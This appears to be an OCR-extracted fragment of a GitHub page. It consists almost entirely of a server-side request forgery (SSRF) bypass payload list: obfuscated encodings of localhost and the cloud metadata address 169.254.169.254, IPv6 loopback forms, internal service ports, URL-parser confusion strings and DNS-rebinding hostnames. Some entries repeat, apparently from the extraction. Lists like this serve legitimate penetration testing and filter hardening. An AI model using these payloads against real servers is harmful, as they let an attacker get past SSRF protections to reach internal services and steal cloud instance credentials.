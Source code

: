 [http://0x41414141A9FEA9FE](.) – dotless hexadecimal with overflow

[http://0251.0376.0251.0376](.) – dotted octal

[http://0251.00376.000251.0000376](.) – dotted octal with padding

[http://2130706433/](.)

[http://[0:0:0:0:0:ffff:127.0.0.1]](.)

[localhost:+11211aaa](.)

[localhost:00011211aaaa](.)

[http://0/](.)

[http://127.1](.)

[http://127.0.1](.)

[http://0.0.0.0:22](.)

[http://[::]:80/](.)

[http://[::]:25/](.) SMTP

[http://[::]:22/](.) SSH

[http://0000::1:80/](.)

[http://1.1.1.1 &@2.2.2.2# @3.3.3.3/](.)

[0://evil.com:80;http://google.com:80/](.)

[http://127.1.1.1:80\@127.2.2.2:80/](.)

[http://127.1.1.1:80\@@127.2.2.2:80/](.)

[http://127.1.1.1:80:\@@127.2.2.2:80/](.)

[http://127.1.1.1:80#\@127.2.2.2:80/](.)

[http://169.254.169.254](.)

[http://metadata.nicob.net/](.)

[http://169.254.169.254.xip.io/](.)

[http://1ynrnhl.xip.io/](.)

[http://www.owasp.org.1ynrnhl.xip.io/](.)

[http://425.510.425.510/](.) Dotted decimal with overflow

[http://2852039166/](.) Dotless decimal

[http://7147006462/](.) Dotless decimal with overflow

[http://0xA9.0xFE.0xA9.0xFE/](.)  Dotted hexadecimal

[http://0xA9FEA9FE/](.) Dotless hexadecimal

[http://0x41414141A9FEA9FE/](.) Dotless hexadecimal with overflow

[http://0251.0376.0251.0376/](.) Dotted octal
